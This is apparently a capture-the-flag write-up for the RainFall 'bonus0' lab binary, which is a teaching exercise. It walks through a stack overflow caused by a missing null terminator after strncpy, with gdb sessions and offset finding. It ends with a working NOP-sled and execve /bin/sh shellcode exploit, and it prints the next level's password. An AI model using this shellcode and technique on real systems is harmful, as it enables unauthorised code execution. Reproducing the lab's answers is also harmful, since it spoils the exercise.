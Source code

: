 # Bonus0

We can find an executable waiting for two inputs and print them by separating them with a space :
```
bonus0@RainFall:~$ ./bonus0
 -
bla
 -
blabla
bla blabla
bonus0@RainFall:~$
```
After analyze it with gdb we can find three interesting functions : `main()`, `pp()` and `p()`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/bonus0/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/bonus0/source.c) for full explanations.  
We see that in `p()` function, we can read 4096 characters in a non null-terminated buffer. Then `strncpy()` is call to copy the first 20 bytes (or less if the buffer is less than 20 characters of course) but, as the man said :  
"If the source string has a size greater than that specified in parameter, then the produced string will not be terminated by null ASCII code (character '\0')."  
So the main buffer should look like :  
arg1 + arg2 + space + arg2 -> if arg1 is not null terminated (if first input is 20 characters or longer) but arg2 is null terminated (2nd input shorter than 20 characters long).  
So we can copy 40 + 1 + 20 (61) chars into buffer, of size 42 => we'll have 19 bytes to write over `eip` address. Lets found the offset :  
```
(gdb) run
Starting program: /home/user/bonus0/bonus0
 - 
01234567890123456789
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
01234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa Aa0Aa1Aa2Aa3Aa4Aa5Aa

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
(gdb) info registers
eax            0x0      0
ecx            0xffffffff       -1
edx            0xb7fd28b8       -1208145736
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff740       0xbffff740
ebp            0x32614131       0x32614131
esi            0x0      0
edi            0x0      0
eip            0x41336141       0x41336141
eflags         0x210282 [ SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
```
Thanks to the pattern generator we found that the offset of `eip` start at 9.  
Let's see what our inputs should look like :  
1st arg : We'll fill up the large buffer in `p()` with a padding of `NOP` instructions and our shellcode. The size of the padding doesn't matter because we just need to put a random address between the start address of our buffer[4096] (+61 bytes for args) and the end of our padding.
```
=> buffer[4096] : | [ 20 bytes NOP first arg ] + NOP * (x - 20) + [ shellcode ] | 
                  ^                                                             ^
            start address                                                  end address
```
2nd arg : With the offset of `eip` found upper we can write over the `eip` address and replace it by a random address between the start address of our buffer (+61 bytes) and the end of our padding.
```
=> buffer[4096] : | [ 20 bytes NOP first arg ] + [ 20 bytes - 2nd arg ] + [ space ] + [ offset ] + [ address in NOP series ] + [ rest] + NOP * x + [ shellcode ] | 
                  ^                                                                   |------------------ 20 bytes ------------------|                           ^
            start address                                                                                                                                   end address
```

## Create our exploit
*shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-827.php) (same as in level9)*  
- 1st step : Create our first input with a padding of `NOP` instructions greater than 61 bytes and less than [4096 bytes - our shellcode]  
	- 100 * NOP instruction + \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80  
- 2nd step : Find our buffer[4096] address in order to determine the address between the start of our buffer + 61 and the end of the NOP instructions.
```
(gdb) set disassembly-flavor intel
(gdb) disass p
Dump of assembler code for function p:
[...]
   0x080484d0 <+28>:    lea    eax,[ebp-0x1008]    // buffer start
[...]
(gdb) b *p+28
Breakpoint 1 at 0x80484d0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 - 

Breakpoint 1, 0x080484d0 in p ()
(gdb) x $ebp-0x1008
0xbfffe680:     0x00000000
(gdb)
```
	- Choose an address between 0xbfffe680 + 61 (0xbfffe6bd) and 0xbfffe680 + 100 (0xbfffe6e4) => 0xbfffe6d0 (\xd0\xe6\xff\xbf)  
- 3rd step : Final exploit  
	- 1st arg = python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'  
	- 2nd arg = python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 7'  
```
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
 - 
 - 
AAAAAAAAABBBBBBB AAAAAAAAABBBBBBB
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
^C
bonus0@RainFall:~$ su bonus1
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
bonus1@RainFall:~$
```
Bonus0 passed!
